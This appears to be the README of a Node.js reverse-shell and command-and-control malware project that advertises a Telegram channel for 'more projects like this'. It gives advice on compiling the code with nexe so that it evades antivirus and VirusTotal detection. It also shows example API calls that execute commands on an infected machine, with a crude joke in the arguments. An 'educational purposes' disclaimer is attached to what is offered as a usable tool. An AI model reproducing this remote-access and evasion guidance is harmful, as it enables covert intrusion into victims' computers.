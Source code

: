 ** t.me/extortment for more projects like this**

# COMPILE IT WITH nexe NPM PACKAGE TO MAKE IT CROSS PLATFROM/FUD

Project Name: Dudullu Kabusu | Nightmare of dudullu.

Dudullu is a hood in turkey that I used to live in.

What is this project? 

This project is a reverse shell/terminal that connects to a CNC made in Node.js

Why Node.js? 

When you make a malware/grabber in Node.js and compile it with nexe, it becomes fully undetectable by most of the popular AVs and Virustotal.

How long it took to make it?

A night with no sleep probably (1-2 hours) 

Why did I make it?

I made it for educational purposes, I am not responsiable for any fraudulent/malicious activies with this source code

YOU HAVE TO MODIFY THIS CODE FOR USAGE

api example

host:port/execute?mode=execute_command&content=echo&arg=gay&arg2=imgay
host:port/execute?mode=execute_command&content=echo&arg=gay
host:port/execute?mode=execute_command&content=ls

